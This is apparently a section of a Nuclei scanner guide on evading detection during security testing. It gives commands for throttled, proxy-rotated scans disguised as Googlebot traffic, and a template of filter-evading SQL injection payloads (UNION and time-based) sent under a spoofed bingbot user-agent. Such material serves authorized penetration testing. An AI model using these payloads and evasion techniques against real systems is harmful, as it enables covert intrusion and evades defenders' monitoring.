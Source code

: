 ## 13. Detection and Defense Evasion

Implement evasion strategies within ethical boundaries and authorized testing scope. Monitor and validate evasion effectiveness through defensive system analysis.

### 13.1 Behavioral Pattern Modification

```bash
# Randomized scanning intervals
nuclei -l targets.txt -delay "5s-30s" -rate-limit 5

# Business hours scanning simulation
nuclei -l targets.txt -delay "1h" -timeout 60

# Geographic IP rotation
nuclei -l targets.txt -http-proxy http://proxy-us:8080
nuclei -l targets.txt -http-proxy http://proxy-eu:8080
nuclei -l targets.txt -http-proxy http://proxy-asia:8080

# Session persistence simulation
nuclei -l targets.txt -header "Cookie: persistent_session=abc123"

# Legitimate crawler simulation
nuclei -l targets.txt -header "User-Agent: Googlebot/2.1 (+http://www.google.com/bot.html)"
```

### 13.2 Template Modification for Stealth

```yaml
id: stealth-sqli-detection

info:
  name: Stealth SQL Injection Detection
  author: security-team
  severity: high
  description: Low-profile SQL injection testing
  tags: sqli,stealth,evasion

variables:
  stealth_payloads:
    - "admin'/**/OR/**/'1'='1"
    - "1'/**/UNION/**/SELECT/**/1,2,3--"
    - "'; WAITFOR/**/DELAY/**/'00:00:02'--"

http:
  - method: GET
    path:
      - "{{BaseURL}}/search?q={{stealth_payloads}}"
    
    headers:
      User-Agent: "Mozilla/5.0 (compatible; bingbot/2.0)"
      Accept: "text/html,application/xhtml+xml"
      Accept-Language: "en-US,en;q=0.9"
      Cache-Control: "no-cache"
      Pragma: "no-cache"
    
    attack: batteringram
    threads: 1
    delay: "10s-60s"
    
    matchers:
      - type: dsl
        dsl:
          - "contains(body_words, 'error') && duration >= 2000"
```